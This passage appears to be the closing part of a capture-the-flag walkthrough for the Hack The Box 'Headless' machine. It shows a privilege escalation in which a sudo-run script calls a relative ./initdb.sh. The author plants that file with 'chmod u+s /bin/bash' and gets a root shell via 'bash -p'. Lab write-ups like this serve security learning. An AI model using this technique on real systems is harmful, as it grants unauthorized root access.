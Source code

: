```bash
disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

I tried searching for that initdb.sh but could not find. Even i used find command to search in root directory (/) but the result was disappointing 😮‍💨.
So, I thought, if there isn't such file, why don't I create it myself and let the system run it with sudo previlege?

```bash
echo "chmod u+s /bin/bash" > initdb.sh"
chmod +x initdb.sh
```

Here the idea is to create a file which when executed will set SUID bit to /bin/bash. Now lets execute the /usr/bin/syscheck with sudo command.

```bash
dvir@headless:~$ sudo /usr/bin/syscheck 
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.00, 0.03, 0.03
Database service is not running. Starting it...

# checking the permission of /bin/bash
dvir@headless:~$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1265648 Apr 24  2023 /bin/bash
```
SUID bit is set to user now by running `/bin/bash -p` when the binary has the SUID bit set, the -p option allows the default bash shell to run with SUID privileges.

From here we can escalate out previlege to root and tehn grab the root flag.

![root flag](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/headless/root_flag.jpg)

Hurray! we successfully acquired the root flag 🤩.

Thankyou for reading my writeup cum walkthrough. Hope this was really informative and interesting for you.
 ![headless pwned](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/headless/headless_pwned.jpg)

